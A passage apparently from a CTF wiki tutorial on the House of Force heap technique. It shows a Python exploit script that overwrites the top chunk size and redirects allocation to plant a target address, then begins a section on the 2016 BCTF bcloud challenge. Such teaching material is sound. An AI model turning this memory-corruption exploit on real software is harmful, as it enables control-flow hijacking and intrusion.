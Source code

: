 ```shell
    r.sendline("1")





magic = 0x400d49

# we must alloc enough size, so as to successfully alloc from fake topchunk

additem(0x30, "ddaa")  # idx 0

payload = 0x30 * 'a'  # idx 0's content

payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size

# modify topchunk's size to -1

modify(0, 0x41, payload)

# top chunk's offset to heap base

offset_to_heap_base = -(0x40 + 0x20)

malloc_size = offset_to_heap_base - 0x8 - 0xf

#gdb.attach(r)

additem(malloc_size, "dada")

additem(0x10, p64(magic) * 2)

print r.recv()

r.interactive()



```



Of course, this problem can also be done using the unlink method.


## 2016 BCTF bcloud

[Topic link] (https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/2016_bctf_bcloud)


### Basic Information
